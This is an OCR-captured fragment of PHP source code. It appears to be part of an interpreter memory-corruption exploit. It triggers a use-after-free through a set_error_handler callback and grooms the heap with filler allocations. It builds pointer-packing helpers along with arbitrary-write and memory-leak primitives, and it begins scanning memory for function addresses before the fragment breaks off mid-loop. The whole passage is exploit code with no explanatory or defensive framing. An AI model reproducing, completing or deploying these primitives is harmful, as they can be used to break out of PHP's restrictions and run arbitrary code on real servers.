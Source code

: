 ```php
        $arr[1] .= $this->alloc(0x4A, "F");
        return $this->str2ptr($buf, 16);
    }

    private function free($var_addr) {

        $contiguous = [];
            for ($i = 0; $i < 10; $i++) {
                $contiguous[] = $this->alloc(0x100, "D");
            }
        $arr = [[1,3,3,7], [5,5,5,5]];
        set_error_handler(function() use (&$arr, &$buf, &$var_addr) {
            $arr = 1;
            $buf = str_repeat("AAABAACAADAAEAAF" . $this->ptr2str($var_addr) . "IAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABXABY", 0x1);
        });
        $arr[1] .= 1337;
    }


    private function alloc($size, $canary) {
        return str_shuffle(str_repeat($canary, $size));
    }


    private function str2ptr($str, $p = 0, $n = 8) {
        $address = 0;
        for($j = $n - 1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p + $j]);
        }
        return $address;
    }

    private function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    private function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for ($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    private function leak($addr, $p = 0, $s = 8) {
        $this->write($this->placeholder, 0x10, $addr);
        $leak = strlen($this->helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    private function get_basic_funcs($base) {
        for ($i = 0; $i < 0x6700/8; $i++) {
            $leak = $this->leak($base - $i * 8);
```